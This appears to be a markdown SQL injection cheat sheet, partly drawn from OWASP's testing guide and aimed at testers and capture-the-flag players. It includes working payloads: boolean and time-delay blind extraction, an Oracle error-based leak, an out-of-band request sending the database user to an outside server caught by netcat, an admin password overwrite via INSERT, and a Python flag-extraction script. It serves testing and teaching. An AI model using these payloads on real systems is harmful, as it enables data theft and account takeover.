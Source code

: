# SQL Injection
---
## Navigation
- **[Detection Techniques](#Detection%20Techniques)**
- **[Boolean Exploitation Technique](#Boolean%20Exploitation%20Technique)**
- **[Error Based Exploitation Technique](#Error%20Based%20Exploitation%20Technique)**
- **[Out of Band Exploitation Technique](#Out%20of%20Band%20Exploitation%20Technique)**
- **[Time Delay Exploitation Technique](#Time%20Delay%20Exploitation%20Technique)**
- **[Orderby](#Order-by)**
- **[Insert statement](#Insert%20statement)**
- **[Evasion techniques](#Evasion%20techniques)**

---
#### SQL Injection attacks can be divided into the following three classes:
- **Inband:** data is extracted using the same channel that is used to inject the SQL code.
- **Out-of-band:** data is retrieved using a different channel (e.g., an email).
- **Inferential or Blind:** there is no actual transfer of data, but the tester is able to reconstruct the information by sending particular requests and observing the resulting behavior of the DB Server.


#### The techniques to exploit SQL injection flaws there are five commons techniques
-   **Union Operator:** can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set.
-   **Boolean:** use Boolean condition(s) to verify whether certain conditions are true or false.
-   **Error based:** this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection.
-   **Out-of-band:** technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server).
-   **Time delay:** use database commands (e.g. sleep) to delay answers in conditional queries. It is useful when attacker doesn’t have some kind of answer (result, output, or error) from the application.

## Detection Techniques
-   Authentication forms
-   Search engines:
-   E-Commerce sites
-   The tester has to make a list of all input fields whose values could be used in crafting a SQL query, **including the hidden fields of POST requests** and then test them separately.

## Boolean Exploitation Technique
The Boolean exploitation technique is very useful when the tester finds a [**Blind SQL Injection**](https://owasp.org/www-community/attacks/Blind_SQL_Injection) situation.

We suppose that the query executed on the server is:
```text
SELECT field1, field2, field3 FROM Users WHERE Id='$Id'
```

The tests that we will execute will allow us to obtain the value of the username field, extracting such value character by character. This is possible through the use of some standard functions, present in practically every database.
-   **SUBSTRING (text, start, length):** returns a substring starting from the position “start” of text and of length “length”. If “start” is greater than the length of text, the function returns a null value.
- **ASCII (char):** it gives back ASCII value of the input character. A null value is returned if char is 0.
-   **LENGTH (text):** it gives back the number of characters in the input text.


```text
1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1
```

```text
1' AND LENGTH(username)=N AND '1' = '1
```
## Error Based Exploitation Technique
The Error based technique consists in **forcing the database to perform some operation in which the result will be an error**. The point here is to try to extract some data from the database and show it in the error message.
Consider the following SQL query:
```text
SELECT * FROM products WHERE id_product=$id_product
```
Consider also the request to a script who executes the query above:
```text
http://www.example.com/product.php?id=10
```
The malicious request would be (e.g. Oracle 10g):
```text
http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--
```
In this example, the tester is concatenating the value 10 with the result of the function `UTL_INADDR.GET_HOST_NAME`. This Oracle function will try to return the hostname of the parameter passed to it, which is other query, the name of the user. When the database looks for a hostname with the user database name, it will fail and return an error message like:
```text
ORA-292257: host SCOTT unknown
```
## Out of Band Exploitation Technique
The technique consists of the use of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester’s server.
Consider the following SQL query:
```text
SELECT * FROM products WHERE id_product=$id_product
```
Consider also the request to a script who executes the query above:
```text
http://www.example.com/product.php?id=10
```
The malicious request would be:
```text
http://www.example.com/product.php?id=10||UTL_HTTP.request(‘server.com:80’||(SELECT user FROM DUAL)--
```
In this example, the tester is concatenating the value 10 with the result of the function `UTL_HTTP.request`. This Oracle function will try to connect to `testerserver` and make a HTTP GET request containing the return from the query `SELECT user FROM DUAL`.
```bash
$nc -nvlp 80

GET /SCOTT HTTP/1.1
Host: testerserver.com
Connection: close
```
## Time Delay Exploitation Technique
This technique consists in sending an injected query and in case the conditional is true, the tester can monitor the time taken to for the server to respond.
The malicious request would be (e.g.**MySql 5.x**):
```text
http://www.example.com/product.php?id=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--
```
## Order-by
```sql
(select case when (SUBSTR((select flag from Flag),1,5)='flag{') then atomic_number else name end)
```
```sql
1 LIMIT 0, 1|1000*(SELECT instr(flag, 'flag{') FROM flag)
```
Code template (messy but works)
```python
inc = 5
flag = "flag{"
while True:
    for i in chars:
        print("[+] Trying: ", i, end="\r", flush=True)
        data = f"(select case when (SUBSTR((select flag from Flag),1,{inc + 1 })='{flag + i}') then atomic_number else name end)"
        Data = {"search": '', "order": data}
        req = requests.post(URL, headers=head, data=Data)
        check = str(req.content).replace(" ","").split("\\n").index("SEACRH FOR")
        if check == <NUMBER>:
            flag = flag + i
            inc += 1
            break
    print(f"[+] Flag is : {flag}")
    print("[!] Starting next iteration..")
    if flag[:-1] == "}":
        break

print(f"[+++] Flag = {flag}")
```
> **Multi-threaded script**: https://github.com/zAbuQasem/Misc/blob/main/Sql_injection.py

## Insert statement
```sql
username=admin&password=1337') ON CONFLICT(username) DO UPDATE SET password = 'admin';--"
```
## Unsecure-regex
Example of a weak regex implementation that this matching only
```python
num_format = re.compile(r'^\d+$', re.M)
if re.match(num_format,post_id):
post = conn.execute('SELECT * FROM posts WHERE id = '+post_id).fetchone()
```
This can be exploited by giving a multi-line input where the first line is only numbers and the second line is the SQL payload
```sql
1337%0A<SQL Payload>
```
## Evasion techniques
> **WAF: **https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF

> **More techniques at the end of the page:** https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection

